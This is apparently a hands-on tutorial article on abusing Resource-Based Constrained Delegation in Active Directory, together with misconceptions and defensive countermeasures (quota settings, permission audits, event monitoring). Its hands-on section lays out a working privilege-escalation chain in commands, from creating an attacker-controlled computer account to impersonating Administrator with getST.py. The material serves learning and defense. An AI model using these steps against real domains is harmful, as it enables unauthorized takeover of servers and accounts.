

## Introduction

- **What You'll Learn From This Article**: [The hands-on solving the "double-hop problem" with Kerberos constrained delegation](/en/articles/ad-constrained-delegation-handson-guide) set whether delegation was allowed on the delegating (front-end) account itself. In this hands-on, you'll reproduce yourself an escalation to Domain Admins, using no domain admin privilege at all, by abusing **Resource-Based Constrained Delegation (RBCD)** — a mechanism that flips this structure.
- **Intended Audience**: Readers who've already experienced Kerberos constrained delegation and [the danger of unconstrained delegation](/en/articles/ad-unconstrained-delegation-handson-guide), and want to know about another important variant of delegation.
- **Estimated Reading Time**: About 25 minutes (hands-on)

This article is part of the [Top 1% Series Complete Article Guide](/en/sitemap), and article 43.2 in the [ActiveDirectory Series](/en/sitemap#series-list).

## Prerequisite Knowledge

- [Kerberos Constrained Delegation](/en/articles/ad-constrained-delegation-handson-guide): A basic understanding of the `msDS-AllowedToDelegateTo` attribute and the S4U2Proxy mechanism.

## Getting the Big Picture

**Traditional Kerberos constrained delegation worked like this: "the delegating (front-end) account sets the `msDS-AllowedToDelegateTo` attribute, declaring which services it's allowed to delegate to."** **RBCD flips this structure. The delegation target (back-end) resource itself declares, in an attribute called `msDS-AllowedToActOnBehalfOfOtherIdentity`, "which account's delegation it's willing to accept."** **This flip means anyone can configure RBCD without needing the privilege only a domain admin holds (`SeEnableDelegationPrivilege`) — all that's required is write access (`GenericWrite`, `GenericAll`, `WriteDacl`, etc.) to the target back-end resource (a computer object).**



## Hands-On: Abuse RBCD to Escalate Privileges

### Step 1: Check the Default ms-DS-MachineAccountQuota

```powershell
Get-ADObject (Get-ADDomain).DistinguishedName -Properties ms-DS-MachineAccountQuota
```

**Confirm the default value is 10 — even an ordinary domain user with no special privileges can create up to 10 computer accounts, each one in a state they fully control themselves.**

### Step 2: Create a Computer Account the Attacker Fully Controls

```powershell
New-MachineAccount -MachineAccount EVILPC -Password $pw
```

The ordinary user who creates it knows this computer account's SID and password themselves.

### Step 3: Find a Target With Write Access, and Configure RBCD

If you have write access, such as `GenericWrite` or `GenericAll`, on a target computer object, set the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to the computer account you created in Step 2.

```powershell
Set-ADComputer TARGETPC -PrincipalsAllowedToDelegateToAccount EVILPC$
```

### Step 4: Obtain a Service Ticket as Domain Admins via S4U2Self/S4U2Proxy

```bash
getST.py -spn 'cifs/targetpc.corp.local' -impersonate 'Administrator' -dc-ip <DC_IP> 'corp.local/EVILPC$:password'
```

**With this ticket, the EVILPC$ computer account can access the target server exactly as if it were Administrator (Domain Admins).** You've reached Domain-Admins-equivalent access to a specific server, starting from ordinary user privileges, with no domain admin intervention needed at all.

<details>
<summary>Two Preconditions Need to Hold at Once for This Attack to Work</summary>

**Abusing RBCD requires two preconditions to hold at the same time: a computer account the attacker fully controls (usually obtained via ms-DS-MachineAccountQuota), and write access to the target computer object.** That second condition — write access — sometimes gets granted unintentionally through an easily overlooked path: an overly broad OU-level permission granted to the help desk during past operations, or a group policy misconfiguration.

</details>

## What a Pro Sees Here (Top 1% Understanding)

### The Real Risk Is the Design Shift Itself — Whether the Front End or the Back End "Decides Who Gets to Delegate"

**Traditional constrained delegation was built on the premise that the side granting delegation (the front end) was controlled by a highly privileged entity (a domain admin). RBCD moved this "deciding side" to the back-end resource itself, increasing flexibility in managing the delegating account — but at the same time, created an easily overlooked new attack target: "write access to the back end."** **The fact that ms-DS-MachineAccountQuota's default value of 10 fulfills half of this attack's preconditions with no special privilege at all** goes overlooked in many organizations. **The perspective that a security assumption can quietly shift through a design change in "who decides what, and how"** is the key to understanding this attack's real nature.

## Common Misconceptions and Pitfalls

- **Misconception 1: "Configuring delegation always requires domain admin privileges."**
  RBCD can be configured with no domain admin privilege at all — only write access to the target back-end resource.
- **Misconception 2: "Creating a computer account requires special privileges."**
  Since the default ms-DS-MachineAccountQuota is 10, even an ordinary domain user can create up to 10 computer accounts.
- **Misconception 3: "RBCD is always a safer mechanism than traditional constrained delegation."**
  RBCD increases management flexibility, but also creates a different attack path: write access to the back end.

## Troubleshooting Perspective

1. **Ordinary users can unintentionally create computer accounts**: Consider setting `ms-DS-MachineAccountQuota` to 0, restricting domain joins to only a dedicated, delegated process.
2. **You want to know who can configure RBCD**: Regularly audit which principals hold `GenericWrite`, `GenericAll`, or `WriteDacl` on target computer objects.
3. **You want to detect an RBCD configuration change**: Monitor Event ID 5136 (directory object modified), tracking changes to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

## Summary

- RBCD is a mechanism where the delegation target (the back-end) resource itself, not the delegating side, decides whether delegation is allowed.
- This flip means RBCD can be configured with just write access to the target resource, not a domain admin's privilege.
- The default ms-DS-MachineAccountQuota (value 10) hands an attacker a computer account they fully control, for free.
- Setting `ms-DS-MachineAccountQuota` to 0 and regularly auditing write access to the back end are effective countermeasures.

**Takeaways to Apply Today**
1. Check whether `ms-DS-MachineAccountQuota`'s default value of 10 is still left as-is, and set it to 0 if it isn't needed.
2. Regularly review write access to computer objects, especially overly broad OU-level permission delegations.

## References

- [Resource-Based Constrained Delegation (RBCD) Attack | RedFox Security](https://www.redfoxsec.com/blog/resource-based-constrained-delegation-rbcd-attack-how-attackers-exploit-active-directory-trust)
- [The Overlooked Danger: How ms-DS-MachineAccountQuota Fuels AD Attacks | Packetlabs](https://www.packetlabs.net/posts/the-overlooked-danger-how-ms-ds-machine-account-quota-fuels-ad-attacks/)
